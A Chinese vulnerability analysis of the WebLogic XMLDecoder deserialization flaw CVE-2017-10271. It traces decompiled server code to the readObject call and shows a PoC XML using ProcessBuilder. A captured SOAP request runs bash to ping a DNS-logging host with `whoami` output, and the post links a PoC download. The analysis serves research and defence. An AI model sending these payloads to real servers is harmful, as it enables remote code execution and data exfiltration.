





# （CVE-2017-10271）Weblogic XMLDecoder 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3223](https://www.zhihuifly.com/t/topic/3223)

# （CVE-2017-10271）Weblogic XMLDecoder 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.1.0

Oracle WebLogic Server12.2.1.3.0

## 三、复现过程

### 漏洞分析

### poc

xml 文件

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_131" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
            </void>
        </array>
        <void method="start" />
    </object>
</java> 
```

读取xml文件，进行反序列化执行命令代码：

```
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class xmlrce {

```
public static void main(String[] args) {
    // TODO Auto-generated method stub
    java.io.File file = new java.io.File("/Users/pirogue/IdeaProjects/weblogic/src/poc.xml");

    java.beans.XMLDecoder xd = null;
    try {
        xd = new java.beans.XMLDecoder(new BufferedInputStream(new FileInputStream(file)));
    } catch (FileNotFoundException e) {
        // TODO Auto-generated catch block
        e.printStackTrace();
    }

    Object s2 = xd.readObject();
    xd.close();
} 
``` `}` 
```



CVE-2017-10271 weblogic反序列化漏洞

WLSServletAdapter.class

```
public void handle(ServletContext var1, HttpServletRequest var2, HttpServletResponse var3) throws IOException {
    if (var2.getMethod().equals("GET") || var2.getMethod().equals("HEAD")) {
        HttpMetadataPublisher var4 = (HttpMetadataPublisher)this.endpoint.getSPI(HttpMetadataPublisher.class);
        if (var4 != null && var4.handleMetadataRequest(this, this.createConnection(var1, var2, var3))) {
            return;
        }

```
 if (this.isOraWsdlMetadataQuery(var2.getQueryString())) {
        this.publishWSDL(this.createConnection(var1, var2, var3));
        return;
    }
}

super.handle(var1, var2, var3); 
``` `}` 
```



当开启调试模式，ping时，WLSServletAdapter对请求进行接收处理，执行到super.handle(var1, var2, var3);后，跟进关键代码如下：


WorkContentServerTube.class


```
public NextAction processRequest(Packet var1) {
    this.isUseOldFormat = false;
    if (var1.getMessage() != null) {
        HeaderList var2 = var1.getMessage().getHeaders();
        Header var3 = var2.get(WorkAreaConstants.WORK_AREA_HEADER, true);
        if (var3 != null) {
            this.readHeaderOld(var3);
            this.isUseOldFormat = true;
        }

```
 Header var4 = var2.get(this.JAX_WS_WORK_AREA_HEADER, true);
    if (var4 != null) {
        this.readHeader(var4);
    }
}

return super.processRequest(var1); 
``` `}` 
```

将var3传递给readHeaderOld(var3)，继续跟进readHeaderOld。

var1的值:

```
com.sun.xml.ws.api.message.Packet@4419bacb Content: <?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<java version="1.8.0_131" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>ping `whoami`.7153b738c41fxxxxxxaadf9dbd46.tu4.org</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope> 
```


WorkContextTube.class

```
protected void readHeaderOld(Header var1) {
    try {
        XMLStreamReader var2 = var1.readHeader();
        var2.nextTag();
        var2.nextTag();
        XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
        ByteArrayOutputStream var4 = new ByteArrayOutputStream();
        XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
        var3.bridge(var2, var5);
        var5.close();
        WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
        this.receive(var6);
    } catch (XMLStreamException var7) {
        throw new WebServiceException(var7);
    } catch (IOException var8) {
        throw new WebServiceException(var8);
    }
} 
```



```
基础知识拓展：
ByteArrayInputStream的用法：

InputStream

|__ ByteArrayInputStream

OutputStream

|__ ByteArrayOutputStream

ByteArrayInputStream可以将字节数组转化为输入流。ByteArrayOutputStream可以捕获内存缓冲区的数据，转化成字节数组。

构造函数：

public ByteArrayInputStream(byte buf[]) `public ByteArrayInputStream(byte buf[], int offset, int length)

注意它需要提供一个byte数组作为缓冲区。` 
```

我们通过idea代码窗口内可以看到各个变量在调试运行后的值，var4的值就是接收poc的xml，在
WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
中，要创建WorkContextXmlInputAdapter的实例var6, 则var4.toByteArray()先转换成字节数组，传入ByteArrayInputStream转换成输入流，跟进WorkContextXmlInputAdapter，在WorkContextXmlInputAdapter.class内，WorkContextXmlInputAdapter接收输入流，并将输入流转换成XMLDecoder对象，这时如果再调用XMLDecoder的readObject()方法对其进行反序列化即可造成命令执行。其实在this.receive(var6);中，进行了多层调用最终到达readObject，下面会省略过多无关调试，记录xml反序列化相关：

下面是对WorkContextXmlInputAdapter和创建xml反序列化对象后如何执行的readObject方法造成rce的代码跟踪

WorkContextXmlInputAdapter.class

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by Fernflower decompiler)
//

package weblogic.wsee.workarea;

import java.beans.XMLDecoder;

import java.io.FileInputStream;

import java.io.IOException;

import java.io.InputStream;

import java.io.NotSerializableException;

import weblogic.workarea.WorkContext;

import weblogic.workarea.WorkContextInput;

public final class WorkContextXmlInputAdapter implements WorkContextInput {

private final XMLDecoder xmlDecoder;

```
public WorkContextXmlInputAdapter(InputStream var1) {
    this.xmlDecoder = new XMLDecoder(var1); // WorkContextXmlInputAdapter构造函数，将输入流转换成XMLDecoder反序列化对象
}

public WorkContextXmlInputAdapter(XMLDecoder var1) {
    this.xmlDecoder = var1;
}

public String readASCII() throws IOException {
    return (String)this.xmlDecoder.readObject();
}

public WorkContext readContext() throws IOException, ClassNotFoundException {
    Class var1 = Class.forName(this.readASCII());

    try {
        WorkContext var2 = (WorkContext)var1.newInstance();
        var2.readContext(this);
        return var2;
    } catch (InstantiationException var3) {
        throw (IOException)(new NotSerializableException("WorkContext must have a public no-arg constructor")).initCause(var3);
    } catch (IllegalAccessException var4) {
        throw (IOException)(new NotSerializableException("WorkContext must have a public no-arg constructor")).initCause(var4);
    }
}

public void readFully(byte[] var1) throws IOException {
    byte[] var2 = (byte[])((byte[])this.xmlDecoder.readObject());
    System.arraycopy(var2, 0, var1, 0, var2.length);
}

public void readFully(byte[] var1, int var2, int var3) throws IOException {
    byte[] var4 = (byte[])((byte[])this.xmlDecoder.readObject());
    System.arraycopy(var4, 0, var1, var2, var3);
}

public int skipBytes(int var1) throws IOException {
    throw new UnsupportedOperationException();
}

public boolean readBoolean() throws IOException {
    return (Boolean)this.xmlDecoder.readObject();
}

public byte readByte() throws IOException {
    return (Byte)this.xmlDecoder.readObject();
}

public int readUnsignedByte() throws IOException {
    return (Integer)this.xmlDecoder.readObject();
}

public short readShort() throws IOException {
    return (Short)this.xmlDecoder.readObject();
}

public int readUnsignedShort() throws IOException {
    return (Integer)this.xmlDecoder.readObject();
}

public char readChar() throws IOException {
    return (Character)this.xmlDecoder.readObject();
}

public int readInt() throws IOException {
    return (Integer)this.xmlDecoder.readObject();
}

public long readLong() throws IOException {
    return (Long)this.xmlDecoder.readObject();
}

public float readFloat() throws IOException {
    return (Float)this.xmlDecoder.readObject();
}

public double readDouble() throws IOException {
    return (Double)this.xmlDecoder.readObject();
}

public String readLine() throws IOException {
    return (String)this.xmlDecoder.readObject();
}

public String readUTF() throws IOException {
    return (String)this.xmlDecoder.readObject();
}

public static void main(String[] var0) throws Exception {
    XMLDecoder var1 = new XMLDecoder(new FileInputStream(var0[0]));
    WorkContextXmlInputAdapter var2 = new WorkContextXmlInputAdapter(var1);
    System.out.println(var2.readASCII());
    System.out.println(var2.readInt());
    byte[] var3 = new byte[20];
    var2.readFully(var3);
    System.out.println(var3);
    System.out.println(var2.readBoolean());
    System.out.println(var2.readByte());
    System.out.println(var2.readShort());
    System.out.println(var2.readChar());
    System.out.println(var2.readInt());
    System.out.println(var2.readLong());
    System.out.println(var2.readFloat());
    System.out.println(var2.readDouble());
    System.out.println(var2.readUTF());
    System.out.println(var2.readUTF());
    System.out.println(var2.readUTF());
} 
``` `}` 
```

WorkContextXmlInputAdapter->new XMLDecoder(var1)

WorkContextEntrylmpl.class

```
public static WorkContextEntry readEntry(WorkContextInput var0) throws IOException, ClassNotFoundException {
    String var1 = var0.readUTF();
    return (WorkContextEntry)(var1.length() == 0 ? NULL_CONTEXT : new WorkContextEntryImpl(var1, var0));
} 
```

第72行，readUTF()

WorkContextXmlInputAdapter.class
第103行

```
public String readUTF() throws IOException {
    return (String)this.xmlDecoder.readObject();
} 
```



当WorkContextEntrylmpl.class中的readUTF执行完成之后，返回反序列化的字符串，rce也执行完成！8


weglogic log:

```
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/logs 
```

### poc

```
download.0-sec.org/download/cve-2017-10271.rar 
```

